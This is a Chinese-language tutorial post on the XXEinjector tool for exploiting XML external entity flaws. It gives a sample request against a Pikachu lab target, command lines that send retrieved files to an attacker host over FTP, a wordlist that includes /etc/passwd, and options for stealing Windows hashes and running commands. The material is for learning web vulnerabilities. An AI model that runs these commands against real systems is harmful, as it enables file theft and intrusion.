 ```yaml
---
title: XXE漏洞利用工具及其资源
date: 2019-03-04 16:02:01
tags: 
	- Tools
	- Payload
	- Cheatsheet
	- XXE
categories:
	- WEB漏洞学习
---
```


## 一、XXE Payload Cheatsheet

https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20injection

## 二、XXEinjector工具

### 0x00 XXEinjector概述

XXEinjector 是一款XXE Fuzz漏洞利用工具。

XXEinjector 用于检索（爆破）存在XXE漏洞的目标服务器的文件或目录。

XXEinjector 可以使用直接检索和带外的方式。

<!-- more -->

XXEinjector 的目录遍历（`--path`）只能用于Java应用程序。其他类型的应用程序只能使用爆破（`--brute`）的方法。

带外方式要求目标主机可以访问我们指定的主机（`--host`），因为采用带外方式时目标主机需要从我们指定的IP上获取恶意dtd文件，以及会将检索到的文件以FTP传输的方式传输到该IP上。（XXEinjector会自动运行WEB服务以及恶意dtd文件以及FTP服务器。）

工具地址：https://github.com/enjoiz/XXEinjector

### 0x01 基本重要参数使用方法

`--file`：这个参数是必选项，用于指定一个HTTP Request消息的文件。HTTP请求文件中要包含XML，或者可以使用"XXEINJECT"来标记注入点。

> ```
> POST /pikachu/vul/xxe/xxe_1.php HTTP/1.1
> Host: 192.168.199.111
> User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0
> Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
> Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
> Accept-Encoding: gzip, deflate
> Referer: http://192.168.199.111/pikachu/vul/xxe/xxe_1.php
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 30
> Connection: close
> Upgrade-Insecure-Requests: 1
> 
> xml=XXEINJECT&submit=%E6%8F%90%E4%BA%A4
> ```

`--path`：指定要遍历的目录或文件。遍历目录只适用于Java应用程序。若是单一文件，则哪种程序都可以用。爆破文件则应使用参数`--brute`。

> `--path=/etc`
>
> `--path=s://test.txt`

`--brute`：该选项用于爆破文件，用于指定包含`文件路径`的字典文件。结果在`brute.log`文件中。

> ```
> s://test.txt
> s://test1.txt
> /etc/passwd
> ```

**工具包含直接和带外两种检索文件的方式。**

**默认是带外方式：**

`--oob=ftp/http/gopher`：带外方式提供ftp(默认)、http、gopher三种协议。

> - ftp协议适用于任意类型WEB程序。
> - http、gopher协议只适用于Java < 1.7的Java WEB应用程序。

`--host`：采用带外方式时，必选项。用于指定反连接IP。目标主机会从该IP获取恶意dtd文件，以及会将我们要获取的文件发到该IP的ftp上。

`--httpport`：`--host`指定的主机监听的WEB服务端口。默认80

`--ftpport`：`--host`指定的主机监听的FTP服务端口。默认21

**直接方式**

`--direct`：表示采用直接方式。还需要用一个独特的字符串作为该参数的值，具体看参数解释。

**其他参数：**

`--verbose`：显示详细信息，可以显示攻击数据包等。推荐使用。

`--phpfilter`：使用PHP filter对检索文件进行Base64编码。

`--ssl`：用于https站点。

`--expect`：使用 PHP expect 扩展执行系统命令。

`--output`：`--brute`输出结果保留的文件。

### 0x03 使用实例

- `ruby XXEinjector.rb --file=req.txt --host=192.168.1.1 --path=s://test.txt --verbose --phpfilter`

> 结果在Logs\IP\目录下。

- `ruby XXEinjector.rb --file=req.txt --host=192.168.1.1 --brute=filepath.txt --verbose --phpfilter --ssl`

> 结果在brute.log文件中。

```
--host	    必选项 - our IP address for reverse connections. (--host=192.168.0.2)
--file	    必选项 - 包含XML的HTTP Request文件。你也可以在请求文件中用"XXEINJECT"来标记的注入点。                      (--file=/tmp/req.txt)

--path	    如果要枚举目录，这是必选项 - 要枚举的目录路径。 (--path=/etc)
--brute	    如果要枚举文件，这是必选项 - 包含要枚举的文件路径的字典文件。 (--brute=/tmp/brute.txt)
--logger    Log results only. Do not send requests. HTTP logger looks for "p" parameter with             results.
  
--rhost	    目标主机的IP或者域名. 只有在Request文件中没用HOST头部时才使用. (--rhost=192.168.0.3)
--rport	    目标主机的端口. 只有在Request文件中没用HOST头部时才使用，没有默认值. (--rport=8080)

--oob	    带外漏洞利用方法. FTP是默认的方法且FTP可以用于任意WEB程序中.HTTP只能用于爆破Java < 1.7             的WEB程序的文件或目录. Gopher只能用于爆破Java < 1.7的WEB程序的文件或目录. (--                     oob=http/ftp/gopher)

--direct	直接利用漏洞而不是带外方法. Unique mark should be specified as a value for this                 argument. This mark specifies where results of XXE start and end. Specify --xml               to see how XML in request file should look like. (--direct=UNIQUEMARK)

--cdata	    Improve direct exploitation with CDATA. Data is retrieved directly, however OOB               is used to construct CDATA payload. Specify --cdata-xml to see how request should             look like in this technique.

--2ndfile	File containing valid HTTP request used in second order exploitation. 
			(--2ndfile=/tmp/2ndreq.txt)

--phpfilter	使用PHP filter对文件进行Base64编码.
--netdoc    使用netdoc协议而不是file协议。 (Java).
--enumports	Enumerating unfiltered ports for reverse connection. Specify value "all" to     			enumerate all TCP ports. (--enumports=21,22,80,443,445)

--hashes	窃取Windows哈希值.
--expect	使用 PHP expect 扩展执行系统命令. (--expect=ls)
--upload	Uploads specified file using Java jar schema into temp file. (--                              upload=/tmp/upload.txt)

--xslt	    Tests for XSLT injection.

--ssl	    Use SSL.
--proxy	    Proxy to use. (--proxy=127.0.0.1:8080)
--httpport	   Set custom HTTP port. (--httpport=80)
--ftpport	   Set custom FTP port. (--ftpport=21)
--gopherport   Set custom gopher port. (--gopherport=70)
--jarport	   Set custom port for uploading files using jar. (--jarport=1337)
--xsltport	   Set custom port for XSLT injection test. (--xsltport=1337)

--test	    该参数用于测试校验Payload。会将发送的Payload显示出来而不会发送到目标主机。

--urlencode	URL encode injected DTD. This is default for URI.
--nodtd	     该参数用于想使用自己提供的dtd文件时，工具默认会生成并使用dtd文件。使用"--dtd"可以看dtd              文件格式。

--output	爆破的结果输出到的文件。 默认情况下爆破的结果存放在brute.log文件中
			(--output=/tmp/out.txt)

--timeout	    Timeout for receiving file/directory content. (--timeout=20)
--contimeout	Timeout for closing connection with server. This is used to prevent DoS                        condition. (--contimeout=20)

--fast	    Skip asking what to enumerate. Prone to false-positives.
--verbose	    Show verbose messages.
```

## 0x03 XXE学习资源

https://nosec.org/home/detail/2139.html